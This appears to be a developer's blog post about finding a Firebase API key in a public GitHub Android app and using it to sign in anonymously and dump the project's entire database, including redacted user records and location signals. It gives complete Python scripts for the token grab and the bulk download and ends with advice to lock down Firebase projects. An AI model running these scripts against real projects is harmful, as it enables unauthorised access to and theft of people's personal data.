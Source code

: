 +++
title = "What happens when you push your Firebase API key to GitHub"
date = "2025-02-27"
+++

Recently I've been working on a new project, and decided to get some inspiration from public repositories on GitHub.  
I've found a repository with a code for Android app, based on game called `Death Stranding`, and as a fan of this game - decided to clone it and run it.  

`README.md` file was very clear, however it had installation via `npm` while we have to use `gradle` for Android projects, last commit was like few months ago, it had a release but with code only.  
Long story short, I've cloned the repository, opened it in Android Studio, and tried to run it, id did it without any issues, a Authorization screen appeared.  
At this point I thought that was it, as I didn't want to create new Firebase project and connect it to this app, but then I've noticed that there's a `google-services.json` file in the project. 
Normally it's okay, because you can reverse engineer the APK to get them, however it contained all of the API keys, and I got curious what will happen if I use them.

Straight away new `python` script was created, which was sending a request to Firebase API:
```python
import requests

API_KEY = "SOME_API_KEY"
DATABASE_URL = "https://gg.europe-west1.firebasedatabase.app"


def sign_in_anonymously():
    url = f"https://identitytoolkit.googleapis.com/v1/accounts:signUp?key={API_KEY}"
    response = requests.post(url, json={"returnSecureToken": True})
    if response.status_code == 200:
        return response.json()["idToken"]
    return None


id_token = sign_in_anonymously()
print("ID Token:", id_token)
```

After running this script, I've got a response with `idToken`, which was a valid token for this Firebase project.

That's it, we have read/write access to the Firebase database, and we can do whatever we want with it.

Let's extend this script to pull all of the data from the database:
```python
def get_data(node, id_token):
    url = f"{DATABASE_URL}/{node}.json?auth={id_token}"
    response = requests.get(url)
    return response.json() if response.status_code == 200 else response.text


nodes = get_data("", id_token)

for node in nodes:
    write_data = get_data(node, id_token)
    with open(f"data_{node}.json", "w") as f:
        write_data = (
            {key: value for key, value in write_data.items()}
            if isinstance(write_data, dict)
            else write_data
        )
        f.write(json.dumps(write_data, indent=4))
    print(f"Data saved to data_{node}.json")

```
execution:
```bash
Data saved to data_deliveries.json
Data saved to data_post_offices.json
Data saved to data_signals.json
Data saved to data_users.json
Data saved to data_weather.json
Data saved to data_weatherCurrentInApp.json
```

After running this script, we will have all of the data from the Firebase database saved in separate files.
Here's some example data from `data_users.json`(personal data was removed):
```json
{
    "8AvbIz4G5BWS____REDACTED": {
        "bloodType": "REDACTED",
        "deliveries": 0,
        "distanceWalked": 0,
        "dob": "REDACTED",
        "height": "REDACTED",
        "name": "REDACTED REDACTED",
        "photoUrl": "REDACTED",
        "timefallExposure": 0,
        "weight": "REDACTED"
    },
    "8DBp4bNCibfp____REDACTED": {
        "bloodType": "REDACTED",
        "deliveries": 2,
        "distanceWalked": 0,
        "dob": "REDACTED",
        "height": "REDACTED",
        "name": "REDACTED REDACTED",
        "photoUrl": "REDACTED",
        "timefallExposure": 0,
        "weight": "REDACTED"
    },
}
```

From `data_signals.json` we could've se latitudes and longitudes of some user-generated signals, some of them correspond to the developers home location.  

While you can push your `google-services.json` to GitHub, you should properly secure your Firebase project and restrict access to it, as it's very easy to get access to it.